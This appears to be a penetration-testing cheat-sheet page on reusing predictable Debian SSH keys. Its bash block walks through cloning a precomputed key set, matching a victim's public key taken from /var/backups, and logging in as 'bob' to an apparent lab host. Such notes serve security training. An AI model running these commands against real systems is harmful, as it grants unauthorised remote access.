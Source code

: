# SSH Authorized\_key reuse

{% embed url="https://github.com/g0tmi1k/debian-ssh" %}

{% embed url="https://gitbook.brainyou.stream/basic-linux/ssh-key-predictable-prng-authorized_keys-process" %}

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>#check /var/backups get ssh/authorized_keys &#x26; known_hosts
</strong>
git clone https://github.com/g0tmi1k/debian-ssh
tar vjxf debian-ssh/common_keys/debian_ssh_dsa_1024_x86.tar.bz2
cd debian-ssh/common_keys/dsa/1024/
grep -lr 'AAAAB3NzaC1kc3MAAACBAOgzzMCD3Im5bRnAVdV3yLwTsyNAi3IiFShIfx9' #(characters after ssh-dss in pub key file)

#find key fingerprint:
f1fb2162a02f0f7c40c210e6167f05ca-16858.pub

ssh-keygen -l -f f1fb2162a02f0f7c40c210e6167f05ca-16858.pub
1024 SHA256:pazdjoHxCGr2tjH16FVEvuwUTtHte8xK1EJ2nmWSHx4  (DSA)

ssh -i dsa/1024/f1fb2162a02f0f7c40c210e6167f05ca-16858 bob@10.11.1.136 -o KexAlgorithms=+diffie-hellman-group1-sha1 -o HostKeyAlgorithms=+ssh-rsa
or
ssh -i f1fb2162a02f0f7c40c210e6167f05ca-16858 bob@10.11.1.136 -o KexAlgorithms=+diffie-hellman-group1-sha1 -o HostKeyAlgorithms=+ssh-rsa
</code></pre>
